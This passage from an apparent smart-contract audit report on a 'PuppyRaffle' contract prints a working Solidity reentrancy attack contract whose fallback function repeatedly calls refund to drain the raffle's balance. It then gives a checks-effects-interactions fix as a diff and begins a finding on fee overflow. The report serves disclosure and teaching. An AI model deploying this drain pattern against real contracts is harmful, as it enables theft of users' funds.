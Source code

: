 ```javascript
    uint256 entranceFee;
    uint256 index;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        index = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(index);
    }

    fallback() external payable {
        if (address(puppyRaffle).balance > 0) {
            puppyRaffle.refund(index);
        }
    }

    receive() external payable {}
}
```

### Recommended Mitigation:

Use CEI pattern or use the `nonReentrant` modifier in openzeppelin.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

## H-3 integer overflow of `PuppyRaffle::toralFees` loses fees

### Description:

The `PuppyRaffle::toralFees` is uint64, in Solidity versions prior to 0.8.0, integers were subject to integer overflows.

